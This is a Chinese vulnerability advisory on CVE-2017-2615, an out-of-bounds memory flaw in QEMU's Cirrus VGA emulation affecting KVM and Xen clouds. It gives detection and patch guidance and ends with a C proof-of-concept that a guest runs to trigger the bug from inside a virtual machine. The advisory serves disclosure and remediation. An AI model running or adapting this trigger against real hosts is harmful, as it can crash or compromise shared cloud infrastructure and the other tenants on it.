

# 【漏洞预警】比“毒液”更恐怖！QEMU再曝高危漏洞(更新PoC)


                                阅读量   
                                **134951**
                            
                        |
                        
                                                                                    


[](./img/85535/t015a656de8c0cb6ee6.jpg)

**漏洞描述**


近期QEMU官方修复了由360GearTeam研究员李强报告的一个严重漏洞CVE-2017-2615，这是QEMU的VGA设备Cirrus CLGD 54xx VGA中存在一个内存越界访问读写漏洞，可以造成宿主机层面的任意代码执行，Xen官方对此漏洞编号为XSA-208。

QEMU是全球流行的开源虚拟化软件。黑客攻击者一旦利用QEMU漏洞控制宿主机，除了利用宿主机强大的性能，可以进行比特币挖矿、密码暴力破解，还可窃取宿主机所有的虚拟机数据甚至进一步的云平台内部横向攻击，危害非常严重。

由于历史原因及软件兼容性的考虑，很长一段时间QEMU的默认VGA设备是Cirrus CLGD 54xx VGA。使用QEMU作为用户态模拟的虚拟化软件如KVM，Xen(HVM模式)的VGA也默认是Cirrus，所以该漏洞会影响到使用KVM及Xen的云平台。

经过实际的版本比对分析，国内主流的公有云平台受到此漏洞影响，应尽快执行升级修复，目前已经有相关受影响公有云平台启动了修复计划。

<br>

[](https://p1.ssl.qhimg.com/t01f55db29d646f3f3b.png)

<br>

**漏洞检测**

由于该漏洞存在于cirrus vga的模拟中，可以在guest中直接执行lspci（相关的软件包是pciutils）查看vga是否是cirrus，如果是则存在该漏洞，如下图：

[](https://p5.ssl.qhimg.com/t01ee51a3105df68c05.png)

<br>

**修复方案**

经过360GearTeam安全团队的分析，建议参考以下任一策略进行修复。

1.	自行更新QEMU版本或更新对补丁进行修复

补丁链接： [https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html](https://lists.gnu.org/archive/html/qemu-devel/2017-02/msg00015.html) 

[](https://p0.ssl.qhimg.com/t01d541a6362d85dacc.png)

2.	修改启动虚拟机相关选项，不使用cirrus vga，改用std vga或者virtio vga

事实上，cirrus vga是90年代早期的设备，存在各种bug和安全问题。详细可以参考qemu vga的维护者Gerd Hoffmann的这篇文章qemu: using cirrus considered harmful([https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/](https://www.kraxel.org/blog/2014/10/qemu-using-cirrus-considered-harmful/) )。在qemu的upstream中，已经准备放弃cirrus显卡模拟。

<br>

**漏洞细节**

该漏洞存在于Cirrus VGA的bitblt操作中，bitblt是bit block transfer的缩写。在VGA模拟中，会分配一段内存vram作为VGA的显示区域，进行bitblt的拷贝操作时，会在这个内存区域中进行数据的拷贝与传输。

该漏洞即发生在向后拷贝的安全检查中，直接看补丁。

[](https://p2.ssl.qhimg.com/t01eee49995cbc96820.png)

在补丁中，pitch &lt; 0时，表示是从vram的后面往前面拷贝数据，min表示的是前面的起始位置。未打补丁之前，会允许读写vram的前面部分，这可能导致读host的信息，也可能导致代码执行，造成宿主机层面代码任意执行。

运行PoC（漏洞验证代码）之后，在宿主机可以看到QEMU处于一个不正常的状态。

[](https://p2.ssl.qhimg.com/t019481ce4962103b46.png)

**更新PoC**

```
/*
 *  CVE-2017-2615 PoC 
 * 
 *  Qiang Li of the Gear Team, Qihoo 360 Inc.
 *  
 *  #gcc poc.c -o poc
 *  #./poc 
 *
*/
#include &lt;sys/io.h&gt;
#include &lt;stdio.h&gt;
 
void write_sr(int idx,int val)
{
      outb(idx,0x3c4);
      outb(val,0x3c5);
}
void write_gr(int idx,int val)
{
        outb(idx,0x3ce);
        outb(val,0x3cf);
}

int main()
{
        iopl(3);
        write_sr(0x07,1);
        write_gr(0x31,0x80);
        write_gr(0x26,0xff);
        write_gr(0x27,0xff);
        write_gr(0x24,1);
        write_gr(0x20,0xff);
        write_gr(0x21,0xff);
        write_gr(0x22,0x0);
        write_gr(0x23,0x0);
        write_gr(0x28,0);
        write_gr(0x29,0);
        write_gr(0x2a,0);
        write_gr(0x2c,0xff);
        write_gr(0x2d,0xff);
        write_gr(0x2e,0xff);
        write_gr(0x30,1);
        write_gr(0x2a,0);
        return 0;
}
```


**关于360GearTeam**

360 Gear Team是360公司一支专注于云安全与互联网核心开源组件安全研究的新锐团队，2016年获QEMU、Xen、VirtualBox、Docker等虚拟化软件致谢67次，以及OpenSSL、NTP、Firefox等重要开源项目致谢49次，成立不到一年就荣获了上百次漏洞报告致谢。团队在保卫360自身内部业务的同时，也在守护互联网的安全。
